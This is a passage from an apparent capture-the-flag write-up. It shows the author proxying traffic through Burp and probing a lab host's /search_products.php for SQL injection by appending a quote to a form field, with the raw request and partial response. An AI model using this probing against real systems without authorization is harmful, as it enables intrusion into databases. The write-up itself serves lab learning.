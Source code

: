 I made sure I had FoxyProxy sending my traffic through Burp, and I
played for a few minutes on this page, generating HTTP requests to a
handful of different PHP scripts:

![](/img/image-20191125052204313.png)

### SQLI

#### Find SQLI

With a good list of pages to check out, I started sending those requests
to repeater to test. There's SQL injection all over the place. The first
place I looked at `/search_products.php`. The initial request looked
like:



    POST /search_products.php HTTP/1.1
    Host: 10.10.10.167
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.167/admin.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 47
    Connection: close
    Upgrade-Insecure-Requests: 1
    X-Forwarded-For: 192.168.4.28

    productName=Asus



When I add a `'` to get `productName=Asus'`, I see the following in the
body of the returned page:



    <!-- Latest Products -->
    <section>
        <h4>Products</h4>
        <div class="table-wrapper">
            <table border="1" cellpadding="10">
                <thead>
                    <tr>
                        <th>Id</th>
                        <th>Name</th>
                        <th>Quantity</th>
                        <th>Category</th>
                        <th>Price</th>
                    </tr>
                </thead>
                <tbody>